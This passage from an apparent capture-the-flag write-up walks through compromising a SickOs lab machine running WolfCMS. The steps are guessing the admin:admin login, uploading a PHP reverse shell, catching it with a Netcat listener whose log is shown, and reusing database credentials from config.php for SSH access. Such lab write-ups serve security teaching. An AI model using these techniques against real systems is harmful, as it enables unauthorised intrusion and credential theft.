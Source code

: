 A hidden CMS, eh? I went there to find this:

{% img center /images/pentest/sickos/1-wolfcms.png 'wolfcms' 'wolfcms' %}

I ran Nikto on it, didn't find anything interesting besides an outdated Apache version. Same with other scanners and another round of directory bruteforcing, nothing useful. I googled for WolfCMS, and found an arbitrary file upload exploit, but it required an authenticated user. So next I searched for the admin interface, and found an answer on [their forums](https://www.wolfcms.org/forum/topic2034.html). So I appended *?admin* to the path and got redirected to http://192.168.217.143/wolfcms/?/admin/login

{% img center /images/pentest/sickos/1-login.png 'wolfcms admin' 'wolfcms admin login' %}

I couldn't find default credentials, no obvious SQL errors, so I tried a few common combinations, and imagine the surprise when *admin:admin* worked!

{% img center /images/pentest/sickos/1-admin.png 'admin' 'wolfcms admin panel' %}

## Exploitation

Now I can use the [exploit](https://www.exploit-db.com/exploits/36818/). The vulnerability exists in the CMS' File Manager, which doesn't restrict the types of files that can be uploaded. But I forgot that I had to access the CMS through a proxy, and didn't want to modify the code, so instead I manually uploaded Pentestmonkey's reverse shell through the interface:

{% img center /images/pentest/sickos/1-file.png 'file manager' 'wolfcms file upload' %}

I set up a Netcat listener and navigated to the shell:

``` 
root@kali:~# nc -vnlp 8888
listening on [any] 8888 ...
connect to [192.168.217.132] from (UNKNOWN) [192.168.217.143] 33709
Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 18:12:38 up  3:14,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

I looked inside the web directory and found a **config.php** file in <code>/var/www/wolfcms</code> that contained a set of credentials:

``` 
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
```

I also noted the existence of a sickos user, based on the home directories. Tried SSH'ing as root, no joy. But trying as sickos with the above password worked! Inside sickos' home, I noticed a bash_history file:
